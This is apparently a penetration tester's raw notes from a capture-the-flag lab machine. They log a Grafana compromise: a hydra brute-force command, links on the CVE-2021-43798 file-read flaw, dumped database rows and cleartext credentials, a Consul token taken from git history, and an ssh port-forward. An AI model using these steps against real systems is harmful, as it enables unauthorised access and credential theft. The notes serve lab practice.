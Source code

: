 # ip 10.10.11.183

# header burp

POST /login HTTP/1.1
Host: 10.10.11.183:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.183:3000/login
content-type: application/json
Origin: http://10.10.11.183:3000
Content-Length: 49
Connection: close
Cookie: redirect_to=%2F
Sec-GPC: 1

{"user":"lsslslslslsll","password":"lslslslslsl"}

# hacktrick hydra grafana test

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V

# grafana version
Grafana v8.2.0

# tuto exploit grafana
https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/

# grafana id
user : admin
password : messageInABottle685427
secret_key : SW2YcwTIb9zpOOhoPsMm

#
sqlite> select * from user;
1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2022-09-14 16:44:19|0

#
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-11-05 01:42:11|0|{}|1|uKewFgM4z

# tuto
https://nusgreyhats.org/posts/writeups/a-not-so-deep-dive-in-to-grafana-cve-2021-43798/

# mysql id
user : grafana
pass : dontStandSoCloseToMe63221!

# developer id
user : developer
pass : YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==

# decode base64
anEnglishManInNewYork027468

#gitmodules file
submodule "themes/ananke"]
        path = themes/ananke
        url = https://github.com/theNewDynamic/gohugo-theme-ananke.git

# path interessant
/development-machine-documentation/themes/ananke

# find file .git
find / -type d -name '.git' 2>/dev/null

# path .git
/opt/my-app/.git

# git show 33a53ef9a207976d5ceceddc41a199558843bf3c

# token
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD

# transfert de port local 8500
ssh -L 8500:0.0.0.0:8500 developer@10.10.11.183
